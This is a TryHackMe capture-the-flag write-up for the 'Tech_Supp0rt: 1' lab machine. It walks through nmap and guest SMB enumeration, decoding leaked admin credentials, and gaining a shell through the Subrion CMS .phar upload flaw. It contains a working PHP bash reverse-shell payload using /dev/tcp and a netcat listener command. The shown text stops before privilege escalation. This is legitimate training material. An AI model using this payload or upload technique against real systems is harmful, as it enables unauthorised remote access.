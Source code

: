 # Tech_Supp0rt: 1 - TryHackMe Writeup

## Description
Tech_Supp0rt: 1 is a beginner-friendly box on TryHackMe designed to simulate a real-world technical support scenario. The challenge involves identifying vulnerabilities, exploiting misconfigurations, and escalating privileges to gain root access. This writeup documents the step-by-step approach taken to solve the machine, focusing on practical techniques and learning outcomes.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration
For enumeration I used a simple nmap scan with the key -A (which includes -sC - simple scripts, -sV - port and services scan, -O - OS detection):

```bash
nmap -A 10.201.31.100
```

![Nmap Scan](assets/nmap-scan.png)

The scan has identified 4 open ports:
- 22: SSH
- 80: HTTP
- 139: Legacy SMB file sharing
- 445: Current standard for SMB file sharing

The detailed nmap scan also revealed that the security for Samba is relatively weak and can be accessed in guest mode (no authenticaion), so I will start with searching through the samba shared files. For this we will use this smbclient command:

```bash
smbclient -L //10.201.31.100/ -N
```

This command lists all the available shares (-L) on the target as well as supresses the password prompt, since we already know that a connection can be established with a guest account:


![Samba Scan](assets/smb-scan.png)

The websrv share is exactly what we are looking for here. Lets connect to the share and inspect what it contains. For this purpose I used the same command, but removed the -L key to simply connect to the share instead of listing:

```bash
smbclient //10.201.31.100/websvr -N
```

![Samba Share](assets/smb-share.png)


And there it is! Using simple commands - ls and get, we have spotted the file enter.txt and downloaded it for later inspection.

Let us take a look at what is inside the file we have just downloaded.

![Enter.txt File](assets/enter.txt.png)

The samba share is cleared now. Now we will see what we have on the HTTP front, but first lets assess the txt file. The file describes 'goals' for the admin, they include:
- Setting up a fake popup website
- Fix the subrion from the /panel, as there is an issue with the /subrion
- Edit the wordpress webiste

This is all very important information. The admin gave us the location to one of the panels - the subrion panels. Under that he also included the credentials for subrion:
- **admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**

However it also states the credentials were 'cooked with a magical formula', which probably implies encoding of some kind. Upon a first look we can conclude that the key is not base64 or base32 encoded, since they typically contain a signature '=' or '==' sign at the end.

After running multiple tests on the string and searching for a good decypher tool, I found this one:
- https://gchq.github.io/CyberChef

This tool can be used to encode/decode various inputs such as base64, base32, hexdump and many more. However, the most interesting tool on this website is 'Magic', which really connects to the hint left to us by the admin - "Cooked with a **magic** formula".

Using that tool on the key we found, gives us the following result:

![CyberChef](assets/CyberChef.png)


So here are the credentials for the Subrion panel:
- **Username: admin**
- **Password: Scam2021**

---

## Gaining Access

Now, that we have the credentials for the Subrion panel, let us go and see the web page for ourselves. First lets head to http://10.201.31.100/. 

We are greeted with the defualt apache index.html page:

![Apache Page](assets/apache-page.png)

Now lets try and view the subrion using /subrion:

![Subrion Issue](assets/subrion-issue.png)

I assume this is the issue the admin was talking about. The CMS is misconfigured which leads to a redirection of the home page.

Since we already know that a subrion panel exists and that it should not have the smae issue, lets visit that page and use the credentials we have already acquired:

![Subrion Logoin](assets/subrion-login.png)


![Subrion Panel](assets/subrion-panel.png)

Now, if we go onto the System ---> System on the left dock we can see that the site url is misconfigured:

![Subrion Panel](assets/subrion-misconfig.png)

Fix the issue by inserting the correct IP address instead of the faulty one. This will be crucial for latter steps.

The issue with redirection is now fixed, lets proceed.

Now we have to find a way to plant a reverse shell to get ahold of the system. There are mutliple ways of achieving that:
- Metasploit framework - can quickly discover a vulnerability and exploit it.
- Finding the vulnerability manually, but using a pre-written exploit - finding the vulnerability in the web and using a script written to exploit that vulnerability.
- Manually finding the vulnerability and exploiting it.

The method we are going to be using is the last one. For simple CTFs like the one we are doing, performing a completely manual pentest seems to me like a much better option for self-development.

Uploading a reverse shell and launching it could be done in two ways on Subrion. First way is creating a new php page with a code instructing it to send a interactive bash shell to your session (IP + port). I have failed to achieve the result this way, since Subrion was really hesitant about importing php code onto a page, even simple obfuscation did not work. 

The second way would be to upload a php script from personal files onto the CMS and using the /uploads directory to open it up. Here things are also a little tricky, most likely due to the Apache configuration. I believe the file .htaccess is blocking any php files from running, or it could be the Subrion itself. Nevertheless, while trying to find a way to overcome this issue, I found this on one of descriptions of Subrion CMS vulnerabilities:

**/panel/uploads in Subrion CMS 4.2.1 allows remote attackers to execute arbitrary PHP code via a .pht or .phar file, because the .htaccess file omits these.**

This confirmed my deduction regarding .htaccess block and also gave us a way to create the plant the php code into the uploads directory and afterwards successfully launch it.

Here is what we are going to do:

Create a simple php file with the following code, you can use the following:

<?php
system("bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
?>

I am going to use my ip plus port 7777 since it is very rarely occupied.
Name your file something like shell.phar or shell.pht (.phar worked perfectly for me).

![shell.phar file](assets/shell-file.jpg)

After creating the file, go to Content ---> Uploads in Subrion Panel. You should get a page which looks like this:

![Subrion Uploads](assets/subrion-uploads.png)

On the top panel, there is a button 'Upload files' or just drag-and-drop the reverse shell you have just created:

![Shell Uploaded](assets/shell-uploaded.png)

Nice! Now, before launching the shell, lets create a session on our end that awaits incoming connections. We can accomplish that with the following netcat command:

```bash
nc -nlvp 7777
```

The last parameter is the port number that you have used when creating the reverse shell, as I have previously stated, I chose 7777.

![NetCat Listen](assets/netcat-listen.png)

Now that our devices is awaiting a connection attempt, lets launch the reverse shell we have planted:

Go to the directory /subrion/uploads/NAME_OF_THE_SHELL in the browser. For example, the link I will use to start the reverse shell is:

```bash
http://10.201.31.100/subrion/uploads/shell.phar
```

![Shell URL](assets/shell-url.png)

And this is the result we get on our device:

![Connection Established](assets/nc-connection.png)

We have successfully deployed a reverse shell, now we need to perform an LPE (Local Privilege Escalation) to gain access to root.txt.


Lets look at what we have on the server:

![Listing Server](assets/listing-server.png)


